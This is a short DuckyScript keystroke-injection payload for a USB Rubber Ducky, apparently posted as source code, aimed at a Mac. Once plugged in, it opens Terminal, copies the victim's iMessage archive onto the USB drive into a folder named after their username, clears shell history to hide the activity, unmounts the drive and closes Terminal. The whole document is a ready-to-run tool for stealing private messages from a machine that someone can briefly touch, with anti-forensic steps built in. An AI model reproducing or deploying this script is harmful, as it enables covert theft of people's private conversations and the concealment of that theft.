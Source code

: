 DELAY 500
GUI SPACE
DELAY 150
STRING Terminal
ENTER
DELAY 300
REM Author: Alex Jay (Minecracker627) (5A13X99)
REM This script captures iMessages and puts it into 
REM a folder named automatically to the victims username
STRING cp -r ~/Library/Messages/Archive /Volumes/RubberDucky/$USER/
ENTER
STRING history -c
ENTER
STRING diskutil umount /Volumes/RubberDucky
ENTER
DELAY 500
STRING history -c
ENTER
STRING echo 5A13X99
ENTER
DELAY 1000
STRING exit
ENTER
DELAY 250
GUI q
